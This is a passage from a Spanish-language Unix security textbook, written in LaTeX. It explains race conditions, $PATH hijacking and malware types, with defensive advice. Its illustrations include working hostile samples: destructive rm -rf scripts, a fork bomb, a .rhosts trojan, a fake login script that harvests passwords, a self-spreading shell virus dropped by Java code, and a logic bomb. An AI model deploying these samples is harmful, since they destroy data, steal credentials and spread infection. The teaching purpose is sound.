retorno de nuestra funci\'on problem\'atica. Si como hemos dicho, este c\'odigo
es el de un int\'erprete de comandos y el fichero pertenece al administrador, 
el atacante consigue ejecutar un {\it shell} con privilegios de {\it root}.\\
\\Existen multitud de {\it exploits} (programas que aprovechan un error en otro
programa para violar la pol\'{\i}tica de seguridad del sistema) disponibles
en Internet, para casi todas las variantes de Unix y que incluyen el c\'odigo
necesario para ejecutar {\it shells} sobre cualquier operativo y arquitectura.
Para minimizar el impacto que los desbordamientos pueden causar en nuestro
sistema es necesaria una colaboraci\'on entre fabricantes, administradores y
programadores (\cite{kn:ins97}, \cite{kn:smi97}\ldots). Los primeros han de
tratar de verificar m\'as la robustez de los programas cr\'{\i}ticos antes de
distribuirlos, mientras que los administradores han de mantener al m\'{\i}nimo
el n\'umero de ficheros {\it setuidados} o {\it setgidados} en sus sistemas y 
los programadores tienen que esforzarse en generar c\'odigo con menos puntos
de desbordamiento; en \cite{kn:cow00} se pueden encontrar algunas l\'{\i}neas
a tener en cuenta en la prevenci\'on de {\it buffer overflows}.
\subsection{Condiciones de carrera}
Otro error muy conocido en el mundo de los sistemas operativos son las
condiciones de carrera, situaciones en las que dos o m\'as procesos leen o 
escriben en un \'area compartida y el resultado final depende de los instantes
de ejecuci\'on de cada uno (\cite{kn:tan91}). Cuando una situaci\'on de este
tipo se produce y acciones que deber\'{\i}an ser at\'omicas no lo son, existe 
un intervalo de tiempo durante el que un atacante puede obtener privilegios, 
leer y escribir ficheros protegidos, y en definitiva violar las pol\'{\i}ticas 
de seguridad del sistema (\cite{kn:bis95b}).\\
\\Por ejemplo, imaginemos un programa {\it setuidado} perteneciente a {\it root}
que almacene informaci\'on en un fichero propiedad del usuario que est\'a 
ejecutando el programa; seguramente el c\'odigo contendr\'a unas l\'{\i}neas
similares a las siguientes (no se ha incluido la comprobaci\'on b\'asica de
errores por motivos de claridad):
\begin{quote}
\begin{verbatim}
if(access(fichero, W_OK)==0){
        open();
        write();
}
\end{verbatim}
\end{quote}
En una ejecuci\'on normal, si el usuario no tiene privilegios suficientes para
escribir en el fichero, la llamada a {\tt access()} devolver\'a {\tt -1} y no
se permitir\'a la escritura. Si esta llamada no falla {\tt open()} tampoco lo
har\'a, ya que el UID efectivo con que se est\'a ejecutando el programa es el 
del {\it root}; as\'{\i} nos estamos asegurando que el programa escriba en el
fichero si y s\'olo si el usuario que lo ejecuta puede hacerlo -- sin 
privilegios adicionales por el {\it setuid} --. Pero, >qu\'e sucede si el 
fichero cambia entre la llamada a {\tt access()} y las siguientes? El programa
estar\'a escribiendo en un archivo sobre el que no se han realizado las
comprobaciones necesarias para garantizar la seguridad. Por ejemplo, imaginemos
que tras la llamada a {\tt access()}, y justo antes de que se ejecute {\tt
open()}, el usuario borra el fichero referenciado y enlaza {\tt /etc/passwd} con
el mismo nombre: el programa estar\'a escribiendo informaci\'on en el fichero
de contrase\~nas.\\
\\Este tipo de situaci\'on, en la que un programa comprueba una propiedad de un 
objeto y luego ejecuta determinada acci\'on asumiendo que la propiedad se 
mantiene, cuando realmente no es as\'{\i}, se denomina TOCTTOU ({\it Time of
check to time of use}). >Qu\'e se puede hacer para evitarla? El propio sistema
operativo nos da las diferentes soluciones al problema (\cite{kn:bis96}). Por
ejemplo, podemos utilizar descriptores de fichero en lugar de nombres: en 
nuestro caso, deber\'{\i}amos utilizar una variante de la llamada {\tt access()}
que trabaje con descriptores en lugar de nombres de archivo (no es algo que
exista realmente, ser\'{\i}a necesario modificar el n\'ucleo del operativo 
para conseguirlo); con esto conseguimos que aunque
se modifique el nombre del fichero, el objeto al que accedemos sea el mismo 
durante todo el tiempo. Adem\'as, es conveniente invertir el orden de las 
llamadas (invocar primero a {\tt open()} y despu\'es a nuestra variante de {\tt 
access()}); de esta forma, el c\'odigo anterior quedar\'{\i}a como sigue:
\begin{quote}
\begin{verbatim}
if((fd=open(fichero, O_WRONLY))==NULL){
        if (access2(fileno(fp),W_OK)==0){
            write();
        }
}
\end{verbatim}
\end{quote}
No obstante, existen llamadas que utilizan nombres de fichero y no tienen un
equivalente que utilice descriptores; para no tener que reprogramar todo el
n\'ucleo de Unix, existe una segunda soluci\'on que cubre tambi\'en a estas
llamadas: asociar un descriptor y un nombre de fichero sin restringir el modo
de acceso. Para esto se utilizar\'{\i}a un modo especial de apertura, {\tt
O$\_$ACCESS} -- que ser\'{\i}a necesario implementar --, en lugar de los 
cl\'asicos {\tt O$\_$RDONLY}, {\tt O$\_$WRONLY} o {\tt O$\_$RDWR}; este nuevo
modo garantizar\'{\i}a que si el objeto existe se har\'{\i}a sobre \'el un
{\tt open()} habitual pero sin derecho de escritura o lectura (ser\'{\i}a 
necesario efectuar una segunda llamada a la funci\'on, con los par\'ametros
adecuados), y si no existe se reserva un nombre y un inodo de tipo `reservado',
un tipo de transici\'on que posteriormente ser\'{\i}a necesario convertir en un
tipo de fichero habitual en Unix (directorio, {\it socket}, enlace\ldots) con
las llamadas correspondientes.
\section{Fauna y otras amenazas}
En el punto anterior hemos hablado de problemas de seguridad derivados de 
errores o descuidos a la hora de programar; sin embargo, no todas las amenazas
l\'ogicas provienen de simples errores: ciertos programas, denominados en su
conjunto {\it malware} o {\it software} malicioso, son creados con la 
intenci\'on principal de atacar a la seguridad\footnote{Realmente, algunos de
ellos no son necesariamente nocivos; es su uso indebido y no la intenci\'on de
su programador lo que los convierte en peligrosos.}. En esta secci\'on vamos a 
hablar de algunos tipos de {\it malware}, sus caracter\'{\i}sticas y sus 
efectos potenciales.\\
\\Para prevenir casi todo el {\it software} malicioso que pueda afectar a 
nuestros sistemas es necesaria una buena concienciaci\'on de los usuarios: bajo
ning\'un concepto han de ejecutar {\it software} que no provenga de fuentes
fiables, especialmente programas descargados de p\'aginas {\it underground} o
ficheros enviados a trav\'es de {\sc irc}. Evidentemente, esto se ha de aplicar
-- y con m\'as rigor -- al administrador de la m\'aquina; si un usuario 
ejecuta un programa que contiene un virus o un troyano, es casi imposible que
afecte al resto del sistema: en todo caso el propio usuario, o sus ficheros,
ser\'an los \'unicos perjudicados. Si es el {\it root} quien ejecuta el programa
contaminado, cualquier archivo del sistema puede contagiarse -- virus -- o las
acciones destructivas del {\it malware} -- troyano -- afectar\'an sin 
l\'{\i}mites a todos los recursos del sistema. Aparte de descargar el {\it
software} de fuentes fiables, es recomendable utilizar las {\it `huellas'} de
todos los programas (generalmente res\'umenes {\sc md5} de los ficheros) para
verificar que hemos bajado el archivo leg\'{\i}timo; tambi\'en es preferible
descargar el c\'odigo fuente y compilar nosotros mismos los programas: aparte 
de cuestiones de eficiencia, siempre tenemos la posibilidad de revisar el
c\'odigo en busca de potenciales problemas de seguridad.\\
\\Otra medida de seguridad muy importante es la correcta asignaci\'on de la
variable de entorno {\it \$PATH}, especialmente para el administrador del
sistema. Esta variable est\'a formada por todos los directorios en los que
el {\it shell} buscar\'a comandos para ejecutarlos; podemos visualizar su
contenido mediante la siguiente orden:
\begin{quote}
\begin{verbatim}
anita:~# echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/sbin:/usr/local/sbin:
/usr/dt/bin:/usr/openwin/bin:/usr/share/texmf/bin
anita:~# 
\end{verbatim}
\end{quote}
Cuando un usuario teclea una \'orden en la l\'{\i}nea de comandos, el {\it 
shell} busca en cada uno de estos directorios un ejecutable con el mismo 
nombre que el tecleado; si lo encuentra, lo ejecuta sin m\'as, y si no lo 
encuentra se produce un mensaje de error (el cl\'asico {\it `command not 
found'}). Esta b\'usqueda se realiza en el orden en que aparecen los 
directorios del {\it \$PATH}: si por ejemplo se hubiera tecleado {\tt `ls'}, 
en nuestro caso se buscar\'{\i}a en primer lugar {\tt /sbin/ls}; como -- 
seguramente -- no existir\'a, se pasar\'a al siguiente directorio de la 
variable, esto es, se intentar\'a ejecutar {\tt /usr/sbin/ls}. Este fichero
tampoco ha de existir, por lo que se intentar\'a de nuevo con {\tt /bin/ls},
la ubicaci\'on normal del programa, y se ejecutar\'a este fichero.\\
\\>Qu\'e problema hay con esta variable? Muy sencillo: para que sea 
m\'{\i}nimamente aceptable, ninguno de los directorios del {\it \$PATH} ha de
poseer permiso de escritura para los usuarios normales; esto incluye 
evidentemente directorios como {\tt /tmp/}, pero tambi\'en otro que a primera
vista puede no tener mucho sentido: el directorio actual, {\tt `.'}. Imaginemos
la siguiente situaci\'on: el {\it root} de un sistema Unix tiene incluido en su 
variable {\it \$PATH} el directorio actual como uno m\'as donde buscar 
ejecutables; esto es algo muy habitual por cuestiones de comodidad. Por ejemplo,
la variable de entorno puede tener el siguiente contenido:
\begin{quote}
\begin{verbatim}
anita:~# echo $PATH
.:/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/sbin:/usr/local/sbin:
/usr/dt/bin:/usr/openwin/bin:/usr/share/texmf/bin
anita:~#
\end{verbatim}
\end{quote}
Si este administrador desea comprobar el contenido del directorio {\tt /tmp/},
o el de {\it \$HOME} de alguno de sus usuarios (recordemos, directorios donde
pueden escribir), seguramente ir\'a a dicho directorio y ejecutar\'a un simple
{\tt ls}. Pero, >qu\'e sucede si el {\tt `.'} est\'a en primer lugar en la
variable {\it \$PATH}? El {\it shell} buscar\'a en primer lugar en el 
directorio actual, por ejemplo {\tt /tmp/}, de forma que si ah\'{\i} existe un
ejecutable denominado {\tt `ls'}, se ejecutar\'a sin m\'as: teniendo en 
cuenta que cualquiera puede escribir en el directorio, ese programa puede tener
el siguiente contenido:
\begin{quote}
\begin{verbatim}
anita:~# cat /tmp/ls
#!/bin/sh
rm -rf /usr/ &
anita:~#
\end{verbatim}
\end{quote}
Como podemos ver, un inocente {\tt `ls'} puede destruir parte del sistema de
ficheros -- o todo --, simplemente porque el administrador no ha tenido la
precauci\'on de eliminar de su {\it \$PATH} directorios donde los usuarios 
puedan escribir.\\
\\Seguramente alguien encontrar\'a una soluci\'on -- falsa -- a este problema:
si la cuesti\'on reside en el orden de b\'usqueda, >por qu\'e no poner el 
directorio actual al final del {\it \$PATH}, depu\'es de todos los directorios
fiables? De esta forma, el programa {\tt ./ls} no se ejecutar\'a nunca, ya que 
antes el {\it shell} va a encontrar con toda seguridad al programa 
leg\'{\i}timo, {\tt /bin/ls}. Evidentemente esto es as\'{\i}, pero es f\'acil
comprobar que el problema persiste: imaginemos que estamos en esa situaci\'on,
y ahora tecleamos en {\tt /tmp/} la orden {\tt ls$\mid$more}. No ocurrir\'a
nada anormal, ya que tanto {\tt `ls'} como {\tt `more'} son programas que
el {\it shell} ejecutar\'a antes de analizar {\tt `.'}. Pero, >qu\'e 
pasar\'{\i}a si nos equivocamos al teclear, y en lugar de {\tt `more'}
escribimos {\tt `moer'}? Al fin y al cabo, no es un ejemplo tan rebuscado, esto
seguramente le ha pasado a cualquier usuario de Unix; si esto ocurre as\'{\i},
el int\'erprete de \'ordenes no encontrar\'a ning\'un programa que se llame
{\tt `moer'} en el {\it \$PATH}, por lo que se generar\'a un mensaje de 
error\ldots >Ninguno? >Y si un usuario ha creado {\tt /tmp/moer}, con un 
contenido similar al {\tt /tmp/ls} anterior? De nuevo nos encontramos ante el
mismo problema: una orden tan inocente como esta puede afectar gravemente a la
integridad de nuestras m\'aquinas. Visto esto, parece claro que bajo ning\'un
concepto se ha de tener un directorio en el que los usuarios puedan escribir,
ni siquiera el directorio actual ({\tt `.'}) en la variable {\it \$PATH}.
\subsection{Virus}
Un virus es una secuencia de c\'odigo que se inserta en un fichero ejecutable
denominado {\it host}, de forma que al ejecutar el programa tambi\'en se
ejecuta el virus; generalmente esta ejecuci\'on implica la copia del c\'odigo
viral -- o una modificaci\'on del mismo -- en otros programas. El virus 
necesita obligatoriamente un programa 
donde insertarse para poderse ejecutar, por lo que no se puede considerar un
programa o proceso independiente.\\
\\Durante a\~nos, un debate t\'{\i}pico entre la comunidad de la seguridad 
inform\'atica es la existencia de virus en Unix (\cite{kn:rad92}, 
\cite{kn:rad93}, \cite{kn:rad95}\ldots). >Existen virus en este entorno, o por 
el contrario son un producto de otros sistemas en los que el concepto de 
seguridad se pierde? Realmente existen virus sobre plataformas Unix capaces de 
reproducirse e infectar ficheros, tanto ELF como {\it shellscripts}: ya en 1983 
Fred Cohen dise\~n\'o un virus que se ejecutaba con \'exito sobre Unix en una 
VAX 11--750 (\cite{kn:coh94}); a\~nos m\'as tarde, en art\'{\i}culos como 
\cite{kn:duf89} o \cite{kn:mci89} se ha mostrado incluso el c\'odigo necesario 
para la infecci\'on.\\
\\Parece claro que la existencia de virus en Unix es algo sobradamente
comprobado; entonces, >d\'onde est\'a el debate? La discusi\'on se centra en
hasta qu\'e punto un virus para Unix puede comprometer la seguridad del sistema;
generalmente, la existencia de estos virus y sus efectos no suelen ser muy 
perjudiciales en los sistemas Unix de hoy en d\'{\i}a. Se suele tratar de
c\'odigo escrito \'unicamente como curiosidad cient\'{\i}fica, ya que cualquier
acci\'on que realice un virus es en general m\'as f\'acilmente realizable por
otros medios como un simple {\it exploit}; de hecho, uno de los primeros virus
para Unix (en t\'erminos puristas se podr\'{\i}a considerar un 
troyano m\'as que un virus) fu\'e creado por uno de los propios dise\~nadores
del sistema operativo, Ken Thompson (\cite{kn:tho84}), con 
el fin no de da\~nar al sistema, sino de mostrar hasta qu\'e punto se puede 
confiar en el {\it software} de una m\'aquina.
\subsection{Gusanos}
El t\'ermino gusano, acu\~nado en 1975 en la obra de ciencia ficci\'on de John
Brunner {\it The Shockwave Rider} hace referencia a programas capaces de viajar 
por s\'{\i} mismos a trav\'es de 
redes de computadores para realizar cualquier actividad una vez alcanzada una 
m\'aquina; aunque esta actividad no tiene por qu\'e entra\~nar peligro, 
los gusanos pueden instalar en el sistema alcanzado un virus, atacar a este 
sistema como har\'{\i}a un intruso, o simplemente consumir excesivas cantidades
de ancho de banda en la red afectada. Aunque se trata de {\it malware} 
much\'{\i}simo menos habitual que por ejemplo los virus o las puertas traseras,
ya que escribir un gusano peligroso es una tarea muy dif\'{\i}cil, los gusanos
son una de las amenazas que potencialmente puede causar mayores da\~nos: no 
debemos olvidar que el mayor incidente de seguridad de la historia de Unix e
Internet fu\'e a causa de un gusano (el famoso {\it Worm} de 1988).\\
\\Antes del {\it Worm} de Robert T. Morris existieron otros gusanos con fines
muy diferentes; a principios de los setenta Bob Thomas escribi\'o lo que muchos
consideran el primer gusano inform\'atico. Este programa, denominado {\tt 
`creeper'}, no era ni mucho menos {\it malware}, sino que era utilizado en los 
aeropuertos por los controladores a\'ereos para notificar que el control de 
determinado avi\'on hab\'{\i}a pasado de un ordenador a otro. Otros ejemplos
de gusanos \'utiles fueron los desarrollados a principios de los ochenta por
John Shoch y Jon Hupp, del centro de investigaci\'on de Xerox en Palo Alto, 
California; estos {\it worms} se dedicaron a tareas como el intercambio de 
mensajes entre sistemas o el aprovechamiento de recursos ociosos durante la 
noche (\cite{kn:sho82}). Todo funcionaba aparentemente bien, hasta que una 
ma\~nana al llegar al
centro ning\'un ordenador funcion\'o debido a un error en uno de los gusanos;
al reiniciar los sistemas, inmediatamente volvieron a fallar porque el gusano
segu\'{\i}a trabajando, por lo que fu\'e necesario dise\~nar una vacuna. Este 
es considerado el primer incidente de seguridad en el que entraban {\it worms} 
en juego.\\
\\Sin embargo, no fu\'e hasta 1988 cuando se produjo el primer incidente de
seguridad `serio' provocado por un gusano, que a la larga se ha convertido en
el primer problema de seguridad inform\'atica que salt\'o a los medios 
(\cite{kn:mar88a}, \cite{kn:mar88b}, \cite{kn:roy88}\ldots) y 
tambi\'en en el m\'as grave -- civil, al menos -- de todos los tiempos. El 2
de noviembre de ese a\~no, Robert T. Morris salt\'o a la fama cuando uno de
sus programas se convirti\'o en `el Gusano' con may\'usculas, en el {\it Worm}
de Internet. La principal causa del problema fu\'e la filosof\'{\i}a {\it 
`Security through Obscurity'} que muchos a\'un defienden hoy en d\'{\i}a: este
joven estudiante era hijo del prestigioso cient\'{\i}fico Robert Morris, experto
en Unix y seguridad -- entre otros lugares, ha trabajado por ejemplo
para el {\it National Computer Security Center} estadounidense --, quien 
conoc\'{\i}a perfectamente uno de los muchos fallos en {\it Sendmail}. No
hizo p\'ublico este fallo ni su soluci\'on, y su hijo aprovech\'o ese 
conocimiento para incorporarlo a su gusano (se puede leer parte de esta 
fascinante historia en \cite{kn:sto89}). El {\it Worm} aprovechaba varias 
vulnerabilidades en programas como {\tt sendmail}, {\tt fingerd}, {\tt rsh} y
{\tt rexecd} (\cite{kn:see89}) para acceder a un sistema, contaminarlo, y 
desde \'el seguir actuando hacia otras m\'aquinas (en \cite{kn:spa88}, 
\cite{kn:er89} o \cite{kn:spa91} se pueden encontrar detalles concretos del
funcionamiento de este gusano). En unas horas, miles de equipos conectados a la
red dejaron de funcionar (\cite{kn:spa89}), todos presentando una sobrecarga
de procesos {\tt sh} (el nombre camuflado del gusano en los sistemas Unix); 
reiniciar el sistema no era ninguna soluci\'on, porque tras unos minutos de
funcionamiento el sistema volv\'{\i}a a presentar el mismo problema.\\
\\Fueron necesarias muchas horas de trabajo para poder detener el {\it Worm}
de Robert T. Morris; expertos de dos grandes universidades norteamericanas,
el MIT y Berkeley, fueron capaces de desensamblar el c\'odigo y proporcionar
una soluci\'on al problema. Junto a ellos, cientos de administradores y 
programadores de todo el mundo colaboraron ininterrumpidamente durante varios 
d\'{\i}as para analizar c\'omo se hab\'{\i}an contaminado y cu\'ales eran los 
efectos que el gusano hab\'{\i}a causado en sus 
sistemas. El d\'{\i}a 8 de noviembre, casi una semana despu\'es del ataque,
expertos en seguridad de casi todos los \'ambitos de la vida estadounidense
se reunieron para aclarar qu\'e es lo que pas\'o exactamente, c\'omo se 
hab\'{\i}a resuelto, cu\'ales eran las consecuencias y c\'omo se pod\'{\i}a
evitar que sucediera algo parecido en el futuro; all\'{\i} hab\'{\i}a 
desde investigadores del MIT o Berkeley hasta miembros de la CIA, el 
Departamento de Energ\'{\i}a o el Laboratorio de Investigaci\'on Bal\'{\i}stica,
pasando por supuesto por miembros del {\it National Computer Security Center},
organizador del evento. Esta reuni\'on, y el incidente en s\'{\i}, marcaron un
antes y un despu\'es en la historia de la seguridad inform\'atica; la 
sociedad en general y los investigadores en particular tomaron conciencia del
grave problema que supon\'{\i}a un ataque de esa envergadura, y a partir de
ah\'{\i} comenzaron a surgir organizaciones como el CERT, encargadas de velar
por la seguridad de los sistemas inform\'aticos. Tambi\'en se determinaron
medidas de prevenci\'on que siguen vigentes hoy en d\'{\i}a, de forma que otros
ataques de gusanos no han sido tan espectaculares: a finales de 1989 un gusano
llamado {\tt wank}, que a diferencia del de Morris era destructivo, no tuvo
ni de lejos las repercusiones que \'este. Desde entonces, no ha habido ninguna
noticia importante -- al menos publicada por el CERT -- de gusanos en entornos
Unix.
\subsection{Conejos}
Los conejos o bacterias son programas que de forma directa no da\~nan al 
sistema, 
sino que se limitan a reproducirse, generalmente de forma exponencial, hasta 
que la cantidad de recursos consumidos (procesador, memoria, disco\ldots) se 
convierte en una negaci\'on de servicio para el sistema afectado. Por ejemplo,
imaginemos una m\'aquina Unix sin una {\it quota} de procesos establecida; 
cualquier usuario podr\'{\i}a ejecutar un c\'odigo como el siguiente:
\tt
\begin{quote}
\begin{verbatim}
main(){
    while(1){
        malloc(1024);
        fork();
    }
}    
\end{verbatim}
\end{quote}
\rm
Este programa reservar\'{\i}a un kilobyte de memoria y a continuaci\'on 
crear\'{\i}a una copia de \'el mismo; el programa original y la copia 
repetir\'{\i}an estas acciones, generando cuatro copias en memoria que 
volver\'{\i}an a hacer lo mismo. As\'{\i}, tras un intervalo de ejecuci\'on, 
el c\'odigo anterior consumir\'{\i}a toda la memoria del sistema, pudiendo 
provocar incluso su parada.\\
\\La mejor forma de prevenir ataques de conejos (o simples errores en los
programas, que hagan que \'estos consuman excesivos recursos) es utilizar las
facilidades que los n\'ucleos de cualquier Unix moderno ofrecen para limitar
los recursos que un determinado proceso o usuario puede llegar a consumir en
nuestro sistema; en la secci\'on tres se repasan algunos de los
par\'ametros necesarios para realizar esta tarea sobre diversos clones del 
sistema Unix.
\subsection{Caballos de Troya}
En el libro VIII de La Odisea de Homero se cuenta la historia de que los 
griegos, tras mucho tiempo de asedio a la ciudad de Troya, decidieron construir
un gran caballo de madera en cuyo interior se escondieron unos cuantos soldados;
el resto del ej\'ercito griego abandon\'o el asedio dejando all\'{\i} el
caballo, y al darse cuenta de que el sitio a su ciudad hab\'{\i}a acabado, los 
troyanos salieron a inspeccionar ese gran caballo de madera. Lo tomaron como
una muestra de su victoria y lo introdujeron tras las murallas de la ciudad sin
darse cuenta de lo que realmente hab\'{\i}a en \'el. Cuando los troyanos
estaban celebrando el fin del asedio, del interior del caballo salieron los
soldados griegos, que abrieron las puertas de la ciudad al resto de su 
ej\'ercito -- que hab\'{\i}a vuelto al lugar -- y pudieron de esta forma 
conquistar la ciudad de Troya.\\
\\De la misma forma que el antiguo caballo de Troya de la mitolog\'{\i}a griega
escond\'{\i}a en su interior algo que los troyanos desconoc\'{\i}an, y que 
ten\'{\i}a una funci\'on muy diferente a la que ellos pensaban, un troyano o 
caballo de Troya actual es un programa que aparentemente realiza una
funci\'on \'util para qui\'en lo ejecuta, pero que en realidad -- o aparte -- 
realiza una funci\'on que el usuario desconoce, generalmente da\~nina. Por
ejemplo, un usuario que posea el suficiente privilegio en el sistema puede 
renombrar el editor {\tt vi} como {\tt vi.old}, y crear un programa denominado
{\tt vi} como el siguiente:
\tt
\begin{quote}
\begin{verbatim}
#!/bin/sh
echo "++">$HOME/.rhosts
vi.old $1
\end{verbatim}
\end{quote}
\rm
Si esto sucede, cuando alguien trate de editar un fichero autom\'aticamente
va a crear un fichero {\tt .rhosts} en su directorio de usuario, que 
permitir\'a a un atacante acceder de una forma sencilla al sistema utilizando
las \'ordenes {\tt r-$\ast$} de Unix BSD.\\
\\Los troyanos son quiz\'as el {\it malware} m\'as difundido en cualquier tipo 
de entorno (\cite{kn:kra}), incluyendo por supuesto a Unix; sus variantes 
incluyen incluso ejemplos graciosos: ha habido casos en
los que comenta un potencial problema de seguridad -- real -- en una lista
de correo y se acompa\~na la descripci\'on de un {\it shellscript} que en
principio aprovecha dicho problema para conseguir privilegios de {\it root}. En 
ese {\it exploit} se ha incluido, convenientemente camuflada, una sentencia 
similar a la siguiente:
\begin{quote}
\begin{verbatim}
echo "A'p gr4ibf t2 hLcM ueem"|tr Ae4Lpbf2gumM Ioyamngotrtk| mail \
     -s "`echo "A'p gr4ibf t2 hLcM ueem"|tr Ae4Lpbf2gumM Ioyamngotrtk`" root
\end{verbatim}
\end{quote}
De esta forma, cuando un {\it script kiddie} ejecute el programa para conseguir
privilegios en el sistema, sin darse cuenta autom\'aticamente lo estar\'a 
notificando al administrador del mismo; evidentemente el {\it exploit} suele
ser falso y no da ning\'un privilegio adicional, simplemente sirve para que el 
{\it root} sepa qu\'e usuarios est\'an `jugando' con la seguridad de sus
m\'aquinas.\\
\\Por desgracia, estos troyanos inofensivos no son los m\'as comunes; existen
tambi\'en ejemplos de caballos de Troya da\~ninos: sin duda el ejemplo 
t\'{\i}pico de troyano (tan t\'{\i}pico que ha recibido un nombre especial:
{\it trojan mule} o mula de Troya (\cite{kn:tom94})) es el falso programa de 
{\it login}. Nada m\'as encender
una terminal de una m\'aquina Unix aparece el cl\'asico mensaje {\tt `login:'}
solicitando nuestro nombre de usuario y contrase\~na, datos que con toda 
seguridad la persona que enciende este dispositivo teclear\'a para poder acceder
al sistema. Pero, >qu\'e suceder\'{\i}a si el programa que imprime 
el mensaje en pantalla es un troyano? Cualquier usuario del sistema puede crear
un c\'odigo que muestre un mensaje similar, guarde la informaci\'on le\'{\i}da
de teclado (el {\it login} y el {\it password}) e invoque despu\'es al programa
{\tt login} original; tras la primera lectura, se mostrar\'a el tambi\'en
cl\'asico mensaje {\it `Login incorrect'}, de forma que el usuario pensar\'a
que ha tecleado mal sus datos -- nada extra\~no, al fin y al cabo --. Cuando
el programa original se ejecute, se permitir\'a el acceso al sistema y ese
usuario no habr\'a notado nada anormal, pero alguien acaba de registrar su
{\it login} y su contrase\~na. Un troyano de este tipo es tan sencillo que se
puede hacer -- de forma simplificada -- en unas pocas l\'{\i}neas de {\it
shellscript}:
\begin{quote}
\begin{verbatim}
luisa:~$ cat trojan
clear
printf "`uname -n` login: "
read login
stty -echonl -echo
printf "Password: "
read pass
echo "$login : $pass" >>/tmp/.claves
printf "\nLogin incorrect"
echo 
exec /bin/login
luisa:~$ 
\end{verbatim}
\end{quote}
El atacante no necesita m\'as que dejar lanzado el programa en varias terminales
del sistema y esperar tranquilamente a que los usuarios vayan tecleando sus
{\it logins} y {\it passwords}, que se guardar\'an en {\tt /tmp/.claves};
evidentemente este ejemplo de troyano es muy simple, pero es suficiente para
hacernos una idea del perjuicio que estos programas pueden producir en una
m\'aquina Unix. En los \'ultimos a\~nos han aparecido caballos de Troya mucho
m\'as elaborados en diversas utilidades de Unix, incluso en aplicaciones 
relacionadas con la seguridad como {\it TCP Wrappers}; en \cite{kn:cert99} se
pueden encontrar referencias a algunos de ellos.\\
\\La forma m\'as f\'acil de descubrir caballos de Troya (aparte de sufrir sus
efectos una vez activado) es comparar los ficheros bajo sospecha con una copia
de los originales, copia que evidentemente se ha de haber efectuado antes de
poner el sistema en funcionamiento y debe haber sido guardada en un lugar 
seguro, para evitar as\'{\i} que el atacante modifique tambi\'en la versi\'on 
de nuestro {\it backup}. Tambi\'en es recomendable -- como sucede con el resto
de {\it malware} -- realizar res\'umenes {\sc md5} de nuestros programas y
compararlos con los res\'umenes originales; esto, que muchas veces es ignorado,
puede ser una excelente soluci\'on para prevenir la amenaza de los caballos de
Troya.
\subsection{Applets hostiles}
En los \'ultimos a\~nos, con la proliferaci\'on de la {\it web}, Java y 
Javascript, una nueva forma de {\it malware} se ha hecho popular. Se trata de
los denominados {\it applets} hostiles, {\it applets} que al ser descargados 
intentan monopolizar o explotar los recursos del sistema de una forma 
inapropiada (\cite{kn:mcg96}); esto incluye desde ataques cl\'asicos como 
negaciones de servicio o ejecuci\'on remota de programas en la m\'aquina 
cliente hasta amenazas mucho m\'as elaboradas, como difusi\'on de virus,
ruptura l\'ogica de cortafuegos o utilizaci\'on de recursos remotos para grandes
c\'alculos cient\'{\i}ficos.\\
\\Como ejemplo de {\it applet} hostil -- aunque este en concreto no es muy 
peligroso -- tenemos el siguiente c\'odigo, obra de Mark D. LaDue (1996):
\begin{quote}
\begin{verbatim}
anita:~/Security# cat Homer.java
import java.io.*;

class Homer {
    public static void main (String[] argv) {
    try {
        String userHome = System.getProperty("user.home");
        String target = "$HOME";
        FileOutputStream outer = new 
                 FileOutputStream(userHome + "/.homer.sh");
        String homer = "#!/bin/sh" + "\n" + "#-_" + "\n" +
        "echo \"Java is safe, and UNIX viruses do not exist.\"" + "\n" +
        "for file in `find " + target + " -type f -print`" + "\n" + "do" +
        "\n" + "    case \"`sed 1q $file`\" in" + "\n" +
        "        \"#!/bin/sh\" ) grep '#-_' $file > /dev/null" +
        " || sed -n '/#-_/,$p' $0 >> $file" + "\n" +
        "    esac" + "\n" + "done" + "\n" + 
        "2>/dev/null";
        byte[] buffer = new byte[homer.length()];
        homer.getBytes(0, homer.length(), buffer, 0);
        outer.write(buffer);
        outer.close();
        Process chmod = Runtime.getRuntime().exec("/usr/bin/chmod 777 " +
                        userHome + "/.homer.sh");
        Process exec = Runtime.getRuntime().exec("/bin/sh " + userHome +
                       "/.homer.sh");
        } catch (IOException ioe) {}
    }
}
anita:~/Security#
\end{verbatim}
\end{quote}
Este programa infecta los sistemas Unix con un virus que contamina ficheros
{\it shellscript}; antes de hacerlo muestra el mensaje {\it `Java is safe, and 
UNIX viruses do not exist'}, para despu\'es localizar todos los ficheros {\it
shell} en el directorio {\it \$HOME}, comprobar cu\'ales est\'an infectados, e
infectar los que no lo est\'an.\\
\\Aunque en un principio no se tom\'o muy en serio el problema de los {\it
applets} hostiles, poco tiempo despu\'es la propia {\it Sun Microsystems} 
reconoci\'o la problem\'atica asociada y se puso a trabajar para minimizar los
potenciales efectos de estos {\it applets}; principalmente se han centrado 
esfuerzos en controlar la cantidad de recursos consumidos por un programa y en
proporcionar las clases necesarias para que los propios navegadores monitoricen
los {\it applets} ejecutados. No obstante, aunque se solucionen los problemas
de seguridad en el c\'odigo, es probable que se puedan seguir utilizando {\it
applets} como una forma de ataque a los sistemas: mientras que estos programas
puedan realizar conexiones por red, no habr\'an desaparecido los problemas.
\subsection{Bombas l\'ogicas}
Las bombas l\'ogicas son en cierta forma similares a los troyanos: se trata de
c\'odigo insertado en programas que parecen realizar cierta acci\'on \'util. 
Pero mientras que un troyano se ejecuta cada vez que se ejecuta el programa que
lo contiene, una bomba l\'ogica s\'olo se activa bajo ciertas condiciones, como
una determinada fecha, la existencia de un fichero con un nombre dado, o el 
alcance de cierto n\'umero de ejecuciones del programa que contiene la bomba;
as\'{\i}, una bomba l\'ogica puede permanecer inactiva en el sistema durante 
mucho tiempo sin activarse y por tanto sin que nadie note un funcionamiento
an\'omalo hasta que el da\~no producido por la bomba ya est\'a hecho. Por 
ejemplo, imaginemos la misma situaci\'on que antes ve\'{\i}amos para el troyano:
alguien con el suficiente privilegio renombra a {\tt vi} como {\tt vi.old}, y
en el lugar del editor sit\'ua el siguiente c\'odigo:
\tt
\begin{quote}
\begin{verbatim}
#!/bin/sh
if [ `date +%a` = "Sun" ]; 
    then
        rm -rf $HOME
    else
        vi.old $1
fi
\end{verbatim}
\end{quote}
\rm
Este cambio en el sistema puede permanecer durante a\~nos\footnote{Obviamente,
si esto es as\'{\i}, denota una escasa preocupaci\'on por la seguridad en ese
sistema.} sin que se produzca
un funcionamiento an\'omalo, siempre y cuando nadie edite ficheros un domingo;
pero en el momento en que un usuario decida trabajar este d\'{\i}a, la bomba
